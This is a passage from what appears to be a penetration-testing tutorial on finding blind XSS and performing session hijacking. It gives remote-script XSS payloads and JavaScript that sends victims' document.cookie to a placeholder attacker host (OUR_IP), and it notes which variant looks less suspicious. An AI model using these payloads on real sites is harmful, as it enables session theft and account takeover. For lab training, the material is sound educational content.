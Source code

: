 Now we can start testing these payloads one by one by using one of them for all of input fields and appending the name of the field after our IP, as mentioned earlier, like:


```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...
```

Tip: We will notice that the email must match an email format, even if we try manipulating the HTTP request parameters, as it seems to be validated on both the front-end and the back-end. Hence, the email field is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext. This helps us in reducing the number of potentially vulnerable input fields we need to test.

Once we submit the form, we wait a few seconds and check our terminal to see if anything called our server. If nothing calls our server, then we can proceed to the next payload, and so on. Once we receive a call to our server, we should note the last XSS payload we used as a working payload and note the input field name that called our server as the vulnerable input field.

`Try testing various remote script XSS payloads with the remaining input fields, and see which of them sends an HTTP request to find a working payload`.

---

## Session Hijacking

Once we find a working XSS payload and have identified the vulnerable input field, we can proceed to XSS exploitation and perform a Session Hijacking attack.

A session hijacking attack is very similar to the phishing attack we performed in the previous section. It requires a JavaScript payload to send us the required data and a PHP script hosted on our server to grab and parse the transmitted data.

There are multiple JavaScript payloads we can use to grab the session cookie and send it to us, as shown by [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc):



```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

Using any of the two payloads should work in sending us a cookie, but we'll use the second one, as it simply adds an image to the page, which may not be very malicious looking, while the first navigates to our cookie grabber PHP page, which may look suspicious.

We can write any of these JavaScript payloads to `script.js`, which will be hosted on our VM as well:


```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```

Now, we can change the URL in the XSS payload we found earlier to use `script.js` (`don't forget to replace OUR_IP with your VM IP in the JS script and the XSS payload`):
